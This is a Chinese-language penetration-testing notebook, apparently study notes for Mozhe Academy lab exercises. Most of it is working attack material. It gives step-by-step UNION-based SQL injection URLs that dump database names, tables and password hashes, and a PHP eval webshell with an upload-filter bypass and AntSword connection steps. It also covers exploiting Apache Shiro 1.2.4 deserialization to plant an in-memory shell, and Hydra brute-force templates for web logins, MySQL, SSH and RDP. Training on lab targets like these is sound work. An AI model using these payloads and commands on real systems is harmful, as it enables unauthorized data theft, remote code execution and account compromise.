### MySQL数据库-字符型

通常漏洞出现在测试网站能够写参数的网址

```
http://127.0.0.1/new_list.php?id=chen
```

通过在参数后面添加`‘`或`“`测试闭合符号

```
http://127.0.0.1/new_list.php?id=chen' --+
```

用order by测试表有多少字段，报错前的数为表字段数，`+`会被网址解析成空格

```
http://127.0.0.1/new_list.php?id=chen' order by 1 --+ 一直将数字加大，直至报错
```

联合查询查询想要的信息，看页面显示信息变化，有位置变成查询的数字，找到数据显示位置，查询信息如数据库，数据表，字段等

```
http://127.0.0.1/new_list.php?id=-1' union select 1,2,3,4 --+

--+ 页面回显了2，将查询的函数写在2处
--+ 当前数据库
http://127.0.0.1/new_list.php?id=-1' union select 2,database(),3,4 --+

--+ 所有数据库
http://127.0.0.1/new_list.php?id=-1' union select 2,group_concat(schema_name),3,4 from information_schema.schemata --+

--+ 所有数据表
http://127.0.0.1/new_list.php?id=-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='数据库' --+

--+ 所有字段
http://127.0.0.1/new_list.php?id=-1' union select 2,group_concat(column_name),3,4 from information_schema.columns where table_schema='数据库' --+

--+ 查询数据
http://127.0.0.1/new_list.php?id=-1' union select 3,group_concat(password),group_concat(name),2 from 数据表 --+
```


eg： **墨者学院**：SQL手工注入漏洞测试(MySQL数据库-字符型)

寻找能传参的网址（公告）

```
--+ 测试闭合方式
http://119.3.165.128:40032/new_list.php?id=tingjigonggao' --+

--+ 测试字段，在5时报错，可知字段数位4
http://119.3.165.128:40032/new_list.php?id=tingjigonggao' order by 4 --+

--+ 查询当前数据库，结果：mozhe_discuz_stormgroup
http://119.3.165.128:40032/new_list.php?id=-1' union select 1,database(),2,3 --+

--+ 查询数据表，结果：notice,stormgroup_member
http://119.3.165.128:40032/new_list.php?id=-1' union select 2,group_concat(table_name),3,4 from information_schema.tables where table_schema='mozhe_discuz_stormgroup'--+

--+ 查询字段，结果：id,title,content,time,id,name,password,status
http://119.3.165.128:40032/new_list.php?id=-1' union select 2,group_concat(column_name),3,4 from information_schema.columns where table_schema='mozhe_discuz_stormgroup'--+

--+ 查询name,password，结果:
--+ mozhe,mozhe
--+ 356f589a7df439f6f744ff19bb8092c0,5c01f61b1b6e657e8a65e6aeaeded0f7
--+ 看密码猜测可能为md5加密过，用工具解密，再去尝试登录
http://119.3.165.128:40032/new_list.php?id=-1' union select 1,group_concat(name),group_concat(password),3 from stormgroup_member --+
```


### WebShell文件上传漏洞分析溯源

通常是网站开发者为了方便上传，写的一个接口，后面忘记删除


#### 方法一

需要工具：

1. burpsuite
2. 剑蚁加载器


写一个php文件，并根据网站要求改成对应格式

```php
<?php
    @eval($_POST['cmd']);
?>
```

将修改格式后的文件上传，用burpsuite拦截，修改上传文件后缀为php，释放

用剑蚁链接输入文件的路径，密码就是post里的cmd


**eg**：

**墨者学院**：WebShell文件上传漏洞分析溯源(第2题)



burpsuite拦截的网站请求



修改文件后缀并放行



例题网站直接展示了上传后的文件路径


用剑蚁连接






#### 方法二

**墨者学院**：WebShell文件上传漏洞分析溯源(第2题)，禁用网站的JavaScript功能能直接上传php文件


**eg**2：

**墨者学院**：WebShell文件上传漏洞分析溯源(第1题)

只需要改文件扩展名为`.php5`


###  Apache Shiro 1.2.4反序列化漏洞

需要工具：

1. godzilla.jar（哥斯拉）
2. shiro_attack-5.1.1-zulu-8-jfx.jar（ShiroAttack2）


运行shiro_attack-5.1.1-zulu-8-jfx.jar工具，爆破密钥，攻击链和回显



执行id命令（可有可无）



内存马注入



godzilla.jar配置连接



进入webshell：右键->进入




## 工具

### BurpSuite

[burpsuite下载链接](https://portswigger.net/burp/downloads)


### 哥斯拉

需要环境[Java JDK  8](https://repo.huaweicloud.com/java/jdk/8u192-b12/)尽量配置在环境变量

[哥斯拉下载链接](https://github.com/BeichenDream/Godzilla/releases)


运行方式，cmd中运行哥斯拉

```cmd
# 进入哥斯拉文件夹
# 检查Java8是否安装正确
java --version

# 运行jar
java -jar 哥斯拉jar包
```








### 剑蚁

[剑蚁加载器下载链接](https://github.com/AntSwordProject/AntSword-Loader)

[剑蚁资源包](https://github.com/AntSwordProject/antSword)建议手动下载


刚下载完成的加载器需要初始化，初始化路径就写资源包的解压路径

初始化完成，只用默认分类



右键空白位置添加新数据




### DirSearch

[dirsearch](https://github.com/maurosoria/dirsearch/releases#release-v0.4.3)：网页敏感文件路径扫描器

需要python3.1以上版本

下载之后的压缩包解压后



在cmd中进入app文件夹，也可以在文件夹上直接输cmd然后回车，进入目录运行以下命令

```cmd
#下载运行时必要模块和dirsearch.py
pip install  -r requirements.txt

#下载完成开始使用
# -u：服务器地址
# -e：指定扫描文件后缀，可不写
# -r：递归搜索子目录
python dirsearch.py -u http://127.0.0.1 -e js,html,php -r
```


[Proxy SwitchyOmega 3]()浏览器插件


### Hydra 爆破工具

```bash
hydra -L <username字典> -P <密码字典> -s <端口> <目标IP> <服务类型> [特定参数]
```


| 服务类型       | 描述                                 |
| -------------- | ------------------------------------ |
| http-post-form | 网页post表单登录                     |
| http-get-form  | 网页get登录，直接将账户密码拼接到url |
| http-get       | 弹窗登录                             |
| mysql          | mysql服务                            |
| ftp            |                                      |
| rdp            |                                      |
| ssh            |                                      |

| 参数             | 描述                                                         |
| ---------------- | ------------------------------------------------------------ |
| -t <数字>        | 同时发送多少组测试，默认16，建议调低，特别是web网页          |
| -f或-F           | 遇到成功就停止                                               |
| -o <文件名>      | 将成功的写入一个文件中                                       |
| -w <秒>或-W <秒> | 超时时间，默认30                                             |
| -s <端口>        | 端口                                                         |
| -vV或-V          | 详细输出,`-V` 只显示“尝试的账号密码”和“成功的战果”；`-vV` 会连服务器的详细响应都打印出来。 |
| -U               | 查看特定服务模块（如 `http-post-form`）的详细帮助和使用语法  |


#### http-post-form

```bash
hydra -L <username字典> -P <密码字典> -s <端口> <目标IP> http-post-form "登录接口:username关键字=^USER^&password关键字=^PASS^:F=错误信息"
```


**eg**：

```bash
hydra -L username.txt -P pw.txt -s 8080 127.0.0.1 http-post-form "/login.php:username=^USER^&password=^PASS^:F=错误"
```


#### http-get-form

```bash
hydra -L <username字典> -P <密码字典> -s <端口> <目标IP> http-get-form "登录接口?username关键字=^USER^&password关键字=^PASS^:F=错误信息"
```


**eg**:

```bash
hydra -L username.txt -P pw.txt -s 8080 127.0.0.1 http-post-form "/login.php?username=^USER^&password=^PASS^:F=错误"
```


#### http-get

```bash
hydra -L <username字典> -P <密码字典> -s <端口> <目标IP> http-get <路径>
```


**eg**:

```bash
hydra -L username.txt -P pw.txt -s 8080 127.0.0.1 http-get /login
```


#### mysql，frp，rdp，ssh

```bash
hydra -L <username字典> -P <密码字典> -s <端口> <目标IP> <服务类型>
```


**eg**:

```bash
hydra -L username.txt -P pw.txt -s 3306 127.0.0.1 mysql
```


### ShiroAttack2

[ShiroAttack2下载链接](https://github.com/SummerSec/ShiroAttack2/releases/tag/v5.1.1)

需要环境[Java JDK  8](https://repo.huaweicloud.com/java/jdk/8u192-b12/)，尽量配置在环境变量


运行方式，cmd中运行ShiroAttack2

```cmd
# 进入ShiroAttack2文件夹
# 检查Java8是否安装正确
java --version

# 运行jar
java -jar ShiroAttack2jar包
```

